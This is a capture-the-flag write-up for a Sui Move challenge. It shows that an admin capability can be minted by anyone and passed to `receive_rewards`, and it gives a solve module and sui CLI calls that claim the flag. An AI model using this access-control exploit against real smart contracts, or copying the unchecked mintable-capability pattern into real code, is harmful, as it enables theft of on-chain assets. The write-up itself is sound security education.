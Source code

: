 # Game

In this challenge our goal is to call `receive_rewards`:

```rust
public entry fun receive_rewards(_: &AdminCap, player: Player, ctx: &mut TxContext) {
    let owner = player.owner;

    event::emit(FlagEvent {
        owner: owner,
        flag: true,
    });

    transfer::transfer(player, owner)

}
```

We need a valid `AdminCap` and `Player`, although `AdminCap` is not checked. The challenge is quite easy as we have these functions:

```rust
public fun mint_cap(ctx: &mut TxContext): AdminCap {
    AdminCap {
        id: object::new(ctx),
    }
}

public entry fun transfer_cap(sender: &PackageSender, admin: address, ctx: &mut TxContext) {
    assert!( ctx.sender() == sender.sender, EINVALID_ADMIN);
    let adminCap = mint_cap(ctx);
    transfer::transfer(adminCap, admin);
}
```

We can essentially mint a cap and transfer it to ourself. Then we create a `Player` and claim rewards.

```rust
module solve_game::solve{
    use game::challenge::{mint_cap};
    use sui::transfer::public_transfer;

    #[allow(lint(share_owned))]
    public entry fun create(ctx: &mut TxContext) {
        let admincap = mint_cap(ctx);
        public_transfer(admincap, ctx.sender());
    }
}
```

We write a simple solve contract to create and public transfer the object to be used in Client CLI.

```bash
# admincap: 0x24fef3b6ab93173fed76abe82a1cefa24b242fe63912cc124f4f373de6a84453
# player: 0x5bd9d1de47bca34fb6f7fd333395a45b7ac61fa785ea4e9e2bd4642d68b5e735

sui client call --package 0xe796e6aff74e8bebb6e7bb61f9addfe524a2852d0f5da828d59a05f465bfc7ca  --module solve --function create --gas-budget 100000000
sui client call --package 0x2e5ba180f53d8aa73de26e03435abe6ac8f182a383ce8a99f4aaca8a76fc7979 --module challenge --function create_player --gas-budget 100000000
sui client call --package 0x2e5ba180f53d8aa73de26e03435abe6ac8f182a383ce8a99f4aaca8a76fc7979 --module challenge --function receive_rewards --args 0x24fef3b6ab93173fed76abe82a1cefa24b242fe63912cc124f4f373de6a84453 0x5bd9d1de47bca34fb6f7fd333395a45b7ac61fa785ea4e9e2bd4642d68b5e735  --gas-budget 100000000
```
